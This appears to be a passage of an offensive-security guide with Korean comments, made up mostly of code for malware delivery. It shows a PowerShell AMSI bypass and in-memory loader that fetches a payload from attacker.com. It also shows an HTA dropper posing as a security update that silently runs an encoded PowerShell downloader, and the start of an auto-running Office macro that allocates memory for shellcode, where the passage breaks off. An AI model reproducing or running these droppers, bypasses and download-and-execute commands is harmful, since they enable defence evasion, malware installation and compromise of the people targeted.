 ```powershell
# AMSI 우회 기법 - 메모리 패치를 통한 보안 기능 비활성화
$a = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$b = $a.GetField('amsiInitFailed','NonPublic,Static')
$b.SetValue($null,$true)

# 인메모리 페이로드 실행 - 바이너리를 디스크에 작성하지 않음
$wc = New-Object System.Net.WebClient
$payload = $wc.DownloadData('http://attacker.com/payload.bin')
$asm = [System.Reflection.Assembly]::Load($payload)
$entryPoint = $asm.GetType('Payload.Program').GetMethod('Main')
$entryPoint.Invoke($null, $null)
```

#### 2. HTML Application(HTA) 드로퍼

```html
<html>
<head>
<script language="JScript">
function dropPayload() {
    var shell = new ActiveXObject("WScript.Shell");
    var fs = new ActiveXObject("Scripting.FileSystemObject");
    var temp = shell.ExpandEnvironmentStrings("%TEMP%");
    
    // 명령어 실행을 통한 PowerShell 다운로더 호출
    var cmd = "powershell -w hidden -e " + 
              "JABjAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAA7ACQAYwAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAIgBoAHQAdABwADoALwAvAGEAdAB0AGEAYwBrAGUAcgAuAGMAbwBtAC8AcABhAHkAbABvAGEAZAAuAGUAeABlACIALAAiACQAZQBuAHYAOgB0AGUAbQBwAFwAcABhAHkAbABvAGEAZAAuAGUAeABlACIAKQA7AFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAiACQAZQBuAHYAOgB0AGUAbQBwAFwAcABhAHkAbABvAGEAZAAuAGUAeABlACIA"
    
    // ActiveX 객체를 통한 명령 실행 (사용자에게 표시되지 않음)
    shell.Run(cmd, 0, false);
}
</script>
</head>
<body onload="dropPayload()">
    <h1>Security Update Required</h1>
    <p>This system requires an important security update. Please wait while updates are being installed...</p>
</body>
</html>
```

#### 3. Office VBA 매크로 드로퍼

```vba
Sub Document_Open()
    If Not AutoExecute() Then
        ' 매크로 실행 실패 시 폴백 실행 경로
        MsgBox "This document requires macros to be enabled to view properly.", vbInformation
    End If
End Sub

Function AutoExecute() As Boolean
    On Error Resume Next
    
    ' 버퍼 정의 및 셸코드 구성 (메모리 내 페이로드)
    Dim shellcode As String
    shellcode = DecodeBase64("...")
    
    ' 메모리 공간 할당
    Dim addr As Long
    addr = VirtualAlloc(0, Len(shellcode), &H1000, &H40)
```